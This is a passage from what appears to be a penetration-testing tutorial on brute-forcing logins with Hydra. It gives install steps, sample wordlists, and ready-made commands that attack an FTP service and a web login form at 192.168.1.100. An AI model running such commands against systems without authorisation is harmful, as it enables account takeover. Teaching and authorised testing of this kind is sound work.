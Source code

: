 ## Advanced Attack Techniques: Using Hydra for Brute-Force Attacks

One of the most powerful tools in an attacker's arsenal for exploiting broken authentication is Hydra, a fast and flexible online password cracking tool. Let's explore how Hydra works and how it can be used to conduct brute-force attacks.

### 3.1 What is Hydra?

Hydra is a parallelized login cracker that supports numerous protocols to attack. It's designed to be fast and flexible, making it a popular choice among both ethical hackers and malicious actors.

### 3.2 How Hydra Works

Hydra operates by systematically trying different username and password combinations against a target system. It can use wordlists, perform mask attacks, or even use custom scripts to generate credentials.

### 3.3 Setting Up Hydra

To demonstrate Hydra's capabilities, let's walk through a basic setup and attack scenario:
- **Step 1: Install Hydra**
  ```bash
  sudo apt-get install hydra
  ```
- **Step 2: Prepare your wordlists**
  ```plaintext
  usernames.txt:
  admin
  user
  root
  passwords.txt:
  password123
  qwerty
  letmein
  ```
- **Step 3: Basic Hydra syntax**
  ```bash
  hydra -L usernames.txt -P passwords.txt [IP] [protocol]
  ```

### 3.4 Conducting a Brute-Force Attack

Let's say we want to attack an FTP server at 192.168.1.100. The command would look like this:
```bash
hydra -L usernames.txt -P passwords.txt ftp://192.168.1.100
```
Hydra will attempt to log in using every combination of usernames and passwords from the provided lists.

### 3.5 Advanced Hydra Techniques

- **Using masks**: Instead of a wordlist, you can use masks to generate passwords:
  ```bash
  hydra -l admin -x 6:8:a ftp://192.168.1.100
  ```
  This tries all alphabetic passwords between 6 and 8 characters long.
- **HTTP Post Form attacks**:
  ```bash
  hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
  ```
  This attacks a web form, looking for the phrase "Login failed" to determine if the attempt was unsuccessful.
